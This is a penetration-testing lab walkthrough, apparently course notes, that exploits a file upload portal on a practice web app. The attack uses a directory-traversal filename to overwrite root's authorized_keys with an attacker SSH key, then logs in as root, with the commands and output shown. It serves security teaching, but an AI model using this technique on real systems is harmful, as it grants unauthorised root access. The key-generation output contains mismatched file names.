





---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Using Non-Executable Files

File upload vulnerabilities can potentially have an impact even if there is no way to execute the uploaded files.

## Example

This example will continue to leverage the Mountain Desserts web application seen in previous examples.

For reference the application exists at `http://mountaindesserts.com` (modify `/etc/hosts` with IP for machine), in this case it will be accessed via port 8000 (`http://mountaindesserts.com:8000`):

Note that the application is no longer serving `/index.php` as the main page. Examining a few other endpoints used by the old application version indicates that they no longer exist either:

```shell-session
kali@kali:~$ curl http://mountaindesserts.com:8000/index.php
404 page not found

kali@kali:~$ curl http://mountaindesserts.com:8000/meteor/index.php
404 page not found

kali@kali:~$ curl http://mountaindesserts.com:8000/admin.php
404 page not found
```

It is safe to assume the web app is no longer using PHP. This necessitates a change of technique in attacking the app.

The application is still supporting an upload portal:

<figure><figcaption><p>Application landing page including Upload section</p></figcaption></figure>

An initial test with a `.txt` file indicates that arbitrary files can be uploaded:

<figure><figcaption><p>Successful text file upload</p></figcaption></figure>

Examining the request in BurpSuite shows the file is submitted with a `filename=` parameter determining what it will be called on the application:

<figure><figcaption><p>Upload test.txt examined in BurpSuite</p></figcaption></figure>

Perhaps the filename will be vulnerable to a directory traversal. Attempt setting the value to a relative value of `../../../../../../../test.txt`:

<figure><figcaption><p>Successful upload utilizing a relative path</p></figcaption></figure>

This would indicate the web application is allowing upload of arbitrary files to arbitrary locations.

One way to leverage this would be to overwrite the `/root/.ssh/authorized_keys` with an attacker-generated file containing known SSH keys. If successful, this would then allow the attacker to use their generated key to log in to this machine as root via SSH.

First the key must be generated:

```shell-session
kali@kali:~$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): fileup
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in fileup
Your public key has been saved in fileup.pub
Your identification has been saved in oscp_up
Your public key has been saved in oscp_up.pub

kali@kali:~$ cat oscp_up.pub                    
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDV8vHmiE4kUIDbY8C7O9TcCYy2YTmgga3t8BjweQP9kQqvgSe8pgnhzVHyv23yoctNPURY786N6F/9+07jTWHmtN+JdYb3gb9J8KgrjX7iJHmMN7C6XCuXg0mPppBjXwz55BgvxT178M647ujd4bhBzjCkEKtPkkQSfuU6QVtlAklw7VLpehwuMyI0xCm7AgmcZGe1lDuhC+vikKnqMjb3tGoLRa/DcsfhPGGG1+CnBstGh9SDXqK19bEfCgkiQ0UX7bAwIoJt4fi5t68oZsg0/htiFFliYmztZivMPdi3S4dzm3LH89MheM1BFiZlZ2ole5mf+QkJFSNePuzqc2pZRS/rMZnCKtXBlLf6v2vLoVPZavqv7ctJ4zMV6g63o04r2XvCAar9rL9qbTtria3KCJRKn4WKbuhSwsau2/+woBl2W2ib2hJkFk3oDhCnwT1Btuhja4wa+2BJm8q2slm9E7XEb8ItB5+by5Zdi2KHf5ps8sXx5zGQjRPQIiWy/AU= kali@kali
```

Then it can be uploaded via BurpSuite:

<figure><figcaption><p>Uploading the public key via Burp</p></figcaption></figure>

The attacker is then able to use the private key they created to access the machine as root via SSH (Note: due to using SSH with this domain in previous examples it may be necessary to run `rm ~/.ssh/known_hosts` prior to connection):

```shell-session
kali@kali:~$ ssh -p 2222 -i oscp_up root@mountaindesserts.com
The authenticity of host '[mountaindesserts.com]:2222 ([192.168.187.16]:2222)' can't be established.
ED25519 key fingerprint is SHA256:R2JQNI3WJqpEehY2Iv9QdlMAoeB3jnPvjJqqfDZ3IXU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[mountaindesserts.com]:2222' (ED25519) to the list of known hosts.
Enter passphrase for key 'oscp_up': 
Linux f77d333b8655 5.4.0-132-generic #148-Ubuntu SMP Mon Oct 17 16:02:06 UTC 2022 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@f77d333b8655:~#
```
